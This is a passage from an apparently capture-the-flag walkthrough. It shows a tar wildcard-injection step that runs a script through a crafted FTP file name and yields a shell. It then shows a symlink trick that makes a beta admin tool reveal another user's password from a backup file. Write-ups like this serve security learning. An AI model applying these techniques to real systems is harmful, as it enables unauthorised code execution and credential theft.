 ```py
ftp.storlines('STOR --checkpoint-action=exec=sh exploit.sh', empty)

ftp.quit()
```

After 2 mins we get our shell as `backupmgr`. Let's find files for jeff.

find / -user jeff 2>/dev/null

```bash
/opt/systools
/opt/systools/systool
/home/jeff
/var/backups/jeff.bak
```

We can't access jeff.bak. And Next I moved onto `systools`. And there we got `message.txt`

```
Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
```

And running `systools` elf file.

```bash
./systool 
Welcome to Jeffs System Administration tool.
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2


Jeff, you should login with your own account to view/change your password. I hope you haven't forgotten it.
```

But I really wan4t to view jeff.bak. I can delete `message.txt` and link `jeff.bak` to view the contents.

```bash
rm messae.txt
ln -s /var/backups/jeff.bak message.txt
./systool
This is still a very beta version and some things are not implemented yet.
Please Select an option from below.
1 ) View process information.
2 ) Restore your password.
3 ) Exit 
Chose your option: 2


Your Password is: 123-My-N4M3-1z-J3ff-123 
```
